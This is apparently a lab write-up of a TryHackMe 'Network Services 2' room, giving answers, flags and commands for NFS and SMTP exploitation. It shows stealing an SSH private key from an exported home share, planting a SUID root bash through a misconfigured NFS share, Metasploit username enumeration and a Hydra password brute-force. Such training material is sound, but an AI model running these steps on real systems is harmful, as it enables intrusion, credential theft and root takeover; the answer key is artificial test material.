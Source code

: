 Network Services 2
##################
:Author: David Boyd
:Date: 2020-11-17

[Task 3] Enumerating NFS
************************

enumeration
	a process which establishes an active connection to the target hosts to
	discover potential attack vectors in the system, and the same can be used
	for further exploitation of the system.

NSF-Common
	a package used in NFS interaction that include programs, such as: lock,
	statd, showmount, nfsstat, gssd, idmapd, and mount.nfs.

.. code-block:: Bash

	# Install NFS-Common pckg
	sudo apt install nfs-common -y

Mounting NFS Shares
===================

Your client's system needs a directory where all the content shared by the host
server in the export folder can be accessed.  You can create this folder
anywhere on your system.  Once you've created this mount point, you can use the
"mount" command to connect the NFS share to the mount point on your machine,
like this:

.. code-block:: Bash

	sudo mount -t nfs IP:share /tmp/mount/ -nolock

+----------+-------------------------------------------------------------+
| Tag      | Function                                                    |
+==========+=============================================================+
| mount    | execute the mount command                                   |
+----------+-------------------------------------------------------------+
| -t nfs   | type of device to mount, then specifying that it's NFS      |
+----------+-------------------------------------------------------------+
| IP:share | The IP Address of the NFS server, and the name of the share |
|          | we wish to mount                                            |
+----------+-------------------------------------------------------------+
| -noloock | Specifies not to use NLM locking                            |
+----------+-------------------------------------------------------------+

Questions
=========

Conduct a thorough port scan scan of your choosing, how many ports are open?
----------------------------------------------------------------------------
:Answer: 7

Which port contains the service we're looking to enumerate?
-----------------------------------------------------------
:Answer: 2049
:Note: 2049: UDP - NFS (Network File SYstem) (Official)

Now, use /usr/sbin/showmount -e [IP] to list the NFS shares, what is the name of the visible share?
---------------------------------------------------------------------------------------------------
:Answer: /home

Walkthrough
^^^^^^^^^^^
:showmount: show mount information for an NFS server
:showmount -e (or --exports): Show the NFS server's export list.

.. code-block:: Bash

	showmount -e $TM

What is the name of the folder inside?
--------------------------------------
:Answer: cappucino

Walkthrough
^^^^^^^^^^^
:WSL: OVPN needs to be initiated through WSL, not Windows.

Time to mount the share to our local machine!

First, use `mkdir /tmp/mount` to create a directory on your machine to mount
the share to. This is in the /tmp directory- so be aware that it will be
removed on restart.

Then, use the mount command we broke down earlier to mount the NFS share to
your local machine. Change directory to where you mounted the share-

.. code-block:: Bash

	# Mount the $TM's folder
	sudo mount -t nfs $TM:/home /tmp/mount/ -nolock

Have a look inside this directory, look at the files. Looks like we're inside a user's home directory...
--------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Interesting! Let's do a bit of research now, have a look through the folders.  Which of these folders could contain keys that would give us remote access to the server?
------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: .ssh

Which of these keys is most useful to us?
-----------------------------------------
:Answer: id_rsa

Can we log into the machine using ssh -i <key-file> <username>@<ip>? (Y/N))
---------------------------------------------------------------------------
:Answer: Y

Walkthrough
^^^^^^^^^^^

Copy this file to a different location your local machine, and change the
permissions to "600" using "chmod 600 [file]".

Assuming we were right about what type of directory this is, we can pretty
easily work out the name of the user this key corresponds to.

.. code-block:: Bash

	mkdir /tmp/bleh && cd /tmp/bleh/
	cp /tmp/mount/cappucino/.ssh/id_rsa /tmp/bleh/id_rsa
	sudo chmod 600 id_rsa
	ssh -i id_rsa cappucino@$TM

[Task 4] Exploiting NFS
***********************

Introduction
============

root_squash
	a NFS shares feature that, when enabled, *prevents anyone connecting to the
	NFS share from having root access* to the NFS volume.  Thus, remote "root"
	users are assigned as "nfsnobody" users when connected.  If root_squash is
	turned off, then remote users can create SUID bit files.

SUID bit set
	file(s) can be run with the permissions of the file(s) owner/group.  --as a
	super-user, we can leverage SUID to get a shell with

Method
------
:files: bash shell executable

1. Upload files to the NFS share
2. Set the permissions of these files
3. Log in through ssh
4. Execute files

The Executable
--------------

Upload a shell that is th esame as the server's (known from nmap scan).

Method Mapped Out
-----------------

1. NFS Access
2. Gain low privilege shell
3. set SUID permissions through NFS (if misconfigured *root squash*)
4. login through SSH
5. execute SUID bit bash executable
6. Root access!

Questions
=========

First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.
-------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

What letter do we use to set the SUID bit set using chmod?
----------------------------------------------------------

Walkthrough
^^^^^^^^^^^

Now, we're going to add the SUID bit permission to the bash executable we just
copied to the share using "sudo chmod +[permission] bash".

What does the permission set look like? Make sure that it ends with -sr-x.
--------------------------------------------------------------------------
:Answer: rwsr-sr-x

Walkthrough
^^^^^^^^^^^
:Note: There may be alterations to the permissions.

Let's do a sanity check, let's check the permissions of the "bash" executable
using "ls -la bash".

Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p".  The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Great! If all's gone well you should have a shell as root! What's the root flag?
--------------------------------------------------------------------------------
:Answer: THM{nfs_got_pwned}

Walkthrough
^^^^^^^^^^^

**Note:** In order to allow the NFS system to copy the file's permissions, you
must modify the permissions *afer copying file from localhost to mounted
location*.

This walkthrough covers all of **Task 4**.

.. code-block:: Bash

	# Download the server's bash version
	wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true
	-O bash

	# Copy from localhost to mounted NFS
	cp ./bash /tmp/mount/cappucino/bash

	# Change ownership
	sudo chown root /tmp/mount/cappucino/bash

	# Set SUID
	sudo chmod +s /tmp/mount/cappucino/bash

	# CTF
	cat /root/root.txt

[Task 5] Understanding SMTP
***************************

SMTP's 3 Basic Functions:

	- verifies who is sending emails through the SMTP server
	- sends the outgoing mail
	- if mail can't be delivered, SMTP server sends the msf back to the client

POP
	downloads an instance of the mailbox from the server

IMAP
	synchronizes the mailbox with the server

Questions
=========

What does SMTP stand for?
-------------------------
:Answer: Simple Mail Transwer Protocol

What does SMTP handle the sending of?
-------------------------------------
:Answer: emails

What is the first step in the SMTP process?
-------------------------------------------
:Answer: SMTP handshake

What is the default SMTP port?
------------------------------
:Answer: 25

Where does the SMTP server send the email if the recipient's server is not available?
-------------------------------------------------------------------------------------
:Answer: SMTP queue

On what server does the Email ultimately end up on?
---------------------------------------------------
:Answer: POP/IMAP

Can a Linux machine run an SMTP server? (Y/N)
---------------------------------------------
:Answer: Y

Can a Windows machine run an SMTP server? (Y/N)
-----------------------------------------------
:Answer: Y

[Task 6] Enumerating SMTP
*************************

Introduction
============

msf > smtp_version
	scans a range of IP addresses and determine the version of any mail servers
	it encounters.

msf > smtp_enum  | smtp-user-enum
	a module that enumerates SMTP usernames; feed it host(s) to scan and a
	wordlist of usernames to enumerate.

Reveal a list of valid users through:

	- manually: VRFY, EXPN (expand)
	- msf: stmp_enum

VRFY
	confirming the names of valid users

EXPN
	revealst he address of user's aliases and lists of e-mail (mailing lists)

Set up MSF > smtp_version

.. code-block:: Bash

	msfdb run
	search smtp_version
	use auxiliary/scanner/smtp/smtp_version

Questions
=========

What port is SMTP running on?
-----------------------------
:Answer: 25

First, lets run a port scan against the target machine, same as last time.

What command do we use to do this?
----------------------------------
:Answer: msfconsole
:Alternative: msfdb run/reinit

Okay, now we know what port we should be targeting, let's start up Metasploit.

Let's search for the module "smtp_version", what's it's full module name?
-------------------------------------------------------------------------
:Answer: auxiliary/scanner/smtp/smtp_version

If you would like some more help, or practice using, Metasploit, Darkstar has
an amazing room on Metasploit that you can check out here:

https://tryhackme.com/room/rpmetasploit

Great, now- select the module and list the options. How do we do this?
----------------------------------------------------------------------
:Answer: options

What is the option we need to set?
----------------------------------
:Answer: RHOSTS

Info
^^^^

Have a look through the options, does everything seem correct?

What's the system mail name?
----------------------------
:Answer: polosmtp.home

Info
^^^^

Set that to the correct value for your target machine. Then run the exploit.

What Mail Transfer Agent (MTA) is running the SMTP server?
-----------------------------------------------------------
:Answer: Postfix

Info
^^^^

This will require some external research.

Walkthrough
^^^^^^^^^^^
:URL1: https://en.wikipedia.org/wiki/Message_transfer_agent
:URL2: https://en.wikipedia.org/wiki/List_of_mail_server_software

`nmap -p 25 -sV $TM`


What's it's full module name?
-----------------------------
:Answer: auxiliary/scanner/smtp/smtp_enum

Info
^^^^

Good! We've now got a good amount of information on the target system to move
onto the next stage. Let's search for the module "smtp_enum",

What option do we need to set to the wordlist's path?
-----------------------------------------------------
:Answer: USER_FILE

Info
^^^^

We're going to be using the "top-usernames-shortlist.txt" wordlist from the
Usernames subsection of seclists (/usr/share/seclists/Usernames if you have it
installed).

Seclists is an amazing collection of wordlists. If you're running Kali or
Parrot you can install seclists with: "sudo apt install seclists"
Alternatively, you can download the repository from here.

Once we've set this option, what is the other essential paramater we need to set?
---------------------------------------------------------------------------------
:Answer: RHOSTS

Now, set the THREADS parameter to 16 and run the exploit, this may take a few minutes, so grab a cup of tea, coffee, water. Keep yourself hydrated!
---------------------------------------------------------------------------------------------------------------------------------------------------
:Answer: [No answer needed]

Okay! Now that's finished, what username is returned?
-----------------------------------------------------
:Answer: administrator

Walkthrough
^^^^^^^^^^^

.. code-block:: Bash

	# install SecLists
	sudo apt install seclists -y

	# set smtp_enum option USER_FILE to username list
	msf6 ...enum) > set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
	run

[Task 7] Exploiting SMTP
************************
:tools: Hydra (online dictionary attack)
:Hydra syntax: hydra -t <threads> -l <username> -P <pass.txt> -vV $TM <protocol>

Questions
=========

What is the password of the user we found during our enumeration stage?
-----------------------------------------------------------------------
:Answer: alejandro

Walkthrough
^^^^^^^^^^^

`hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt $TM ssh -I -f
-vV`


Great! Now, let's SSH into the server as the user, what is contents of smtp.txt
-------------------------------------------------------------------------------
:Answer: THM{who_knew_email_servers_were_c00l?}

Walkthrough
^^^^^^^^^^^

.. code-block:: Bash

	# SSH into SMTP server
	ssh administrator@$TM
	# CTF
	ls; cat smtp.txt

[Task 8] Understanding MySQL
****************************

